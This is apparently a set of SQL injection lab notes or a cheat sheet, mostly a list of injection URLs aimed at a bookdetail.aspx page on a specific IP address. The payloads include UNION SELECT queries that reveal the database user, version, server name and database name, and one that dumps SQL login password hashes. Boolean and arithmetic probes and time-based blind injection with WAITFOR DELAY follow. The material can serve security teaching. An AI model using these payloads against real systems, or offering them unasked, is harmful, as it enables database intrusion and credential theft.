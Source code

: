     We are using a union select statement because we are joining the developer's query with one of our own.
    Reference:
    http://www.techonthenet.com/sql/union.php
    The SQL UNION operator is used to combine the result sets of 2 or more SELECT statements.
    It removes duplicate rows between the various SELECT statements.
 
    Each SELECT statement within the UNION must have the same number of fields in the result sets with similar data types.
 
http://54.213.252.28/bookdetail.aspx?id=-2 union all select 1,2,3,4,5,6,7,8,9--
 
    Negating the paramter value (changing the id=2 to id=-2) will force the pages that will echo back data to be displayed.
 
http://54.213.252.28/bookdetail.aspx?id=-2 union all select 1,user,@@version,4,5,6,7,8,9--
http://54.213.252.28/bookdetail.aspx?id=-2 union all select 1,user,@@version,@@servername,5,6,7,8,9--
http://54.213.252.28/bookdetail.aspx?id=-2 union all select 1,user,@@version,@@servername,5,6,db_name(0),8,9--
http://54.213.252.28/bookdetail.aspx?id=-2 union all select 1,user,@@version,@@servername,5,6,master.sys.fn_varbintohexstr(password_hash),8,9 from master.sys.sql_logins--
 
 
 
 
 
- Another way is to see if you can get the backend to perform an arithmetic function
http://54.213.252.28/bookdetail.aspx?id=(2)
http://54.213.252.28/bookdetail.aspx?id=(4-2)  
http://54.213.252.28/bookdetail.aspx?id=(4-1)
 
 
 
http://54.213.252.28/bookdetail.aspx?id=2 or 1=1--
http://54.213.252.28/bookdetail.aspx?id=2 or 1=2--
http://54.213.252.28/bookdetail.aspx?id=1*1
http://54.213.252.28/bookdetail.aspx?id=2 or 1 >-1#
http://54.213.252.28/bookdetail.aspx?id=2 or 1<99#
http://54.213.252.28/bookdetail.aspx?id=2 or 1<>1#
http://54.213.252.28/bookdetail.aspx?id=2 or 2 != 3--
http://54.213.252.28/bookdetail.aspx?id=2 &0#
 
 
 
 
 
###############################
# Blind SQL Injection Testing #
###############################
Time-Based BLIND SQL INJECTION - EXTRACT DATABASE USER
     
3 - Total Characters
http://54.213.252.28/bookdetail.aspx?id=2; IF (LEN(USER)=1) WAITFOR DELAY '00:00:10'--
http://54.213.252.28/bookdetail.aspx?id=2; IF (LEN(USER)=2) WAITFOR DELAY '00:00:10'--
http://54.213.252.28/bookdetail.aspx?id=2; IF (LEN(USER)=3) WAITFOR DELAY '00:00:10'--      (Ok, the username is 3 chars long - it waited 10 seconds)
 